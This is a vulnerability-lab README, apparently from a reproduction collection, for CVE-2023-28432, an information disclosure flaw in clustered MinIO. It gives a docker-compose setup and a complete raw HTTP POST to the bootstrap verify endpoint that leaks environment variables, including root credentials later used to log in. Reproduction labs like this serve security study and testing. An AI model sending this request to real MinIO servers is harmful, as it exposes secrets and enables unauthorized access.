


# MinIO Information Disclosure in Cluster Deployment (CVE-2023-28432)

[中文版本(Chinese version)](README.zh-cn.md)

MinIO is a High Performance Object Storage released under GNU Affero General Public License v3.0.

In the version before `RELEASE.2023-03-20T20-16-18Z`, there is an information disclosure vulnerability if MinIO is deployed in cluster mode. An attacker can use an HTTP request to obtain all environment variables of the target process, including `MINIO_SECRET_KEY` and `MINIO_ROOT_PASSWORD`.

References:

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## Vulnerable Environment

Executing following commands to start a MinIO cluster:

```
docker-compose up -d
```

After the cluster has been started, you can browse Web console on `http://your-ip:9001`, API server on `http://your-ip:9000`.

## Vulnerability Reproduce

The issue exists in the API endpoint `http://your-ip:9000/minio/bootstrap/v1/verify`. Send the request to retrieve all environment variables:

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```



It can be seen that `MINIO_ROOT_USER` and `MINIO_ROOT_PASSWORD` is exposed.

Success to use this username and password to login the Web console:


